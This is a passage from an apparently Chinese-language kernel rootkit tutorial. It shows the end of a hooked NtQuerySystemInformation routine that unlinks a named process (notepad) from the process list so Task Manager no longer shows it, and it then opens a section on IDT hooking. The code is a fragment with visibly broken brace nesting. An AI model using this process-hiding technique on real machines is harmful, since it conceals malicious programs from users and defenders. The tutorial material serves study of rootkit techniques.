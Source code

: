 ```
		KernelTime.QuadPart += now-> KernelTime.QuadPart;
		if (prev)
		{
			if (now-> NextEntryDelta)
				prev-> NextEntryDelta += now-> NextEntryDelta;
			else
				prev-> NextEntryDelta = 0;
			}
			else
			{
				if (now-> NextEntryDelta)
				(char*)SystemInformation += now-> NextEntryDelta;
				else
					SystemInformation = NULL;
			}
		}
		else if (now-> ProcessName.Buffer == NULL)
		{
			now-> UserTime.QuadPart += UserTime.QuadPart;
			now-> KernelTime.QuadPart += KernelTime.QuadPart;
		}
		prev = now;
		if (now-> NextEntryDelta) (char*)now += now-> NextEntryDelta;
		else now = NULL;
	}
      }
     else if (SystemInformationClass == 8)
     {
	PSYSTEM_PROCESSOR_TIMES times = (PSYSTEM_PROCESSOR_TIMES)SystemInformation;
	times-> IdleTime.QuadPart += UserTime.QuadPart + KernelTime.QuadPart;
     }
   }
   return status;
}


```

这样打开notpad然后再打开任务管理器，发现notepad被隐藏。


## IDT Hook
IDT即中断描述符表，用于处理中断。当中断发生时系统在IDT中查找中断处理函数的地址。IDT在内存中的地址由寄存器IDTR保存，SIDT指令可以读取IDTR的内容，返回一个结构体：


```

typedef struct _IDTINFO
{
	WORD IDTLimit;
	WORD LowIDTBase;
	WORD HiIDTBase;
} IDTINFO;


```
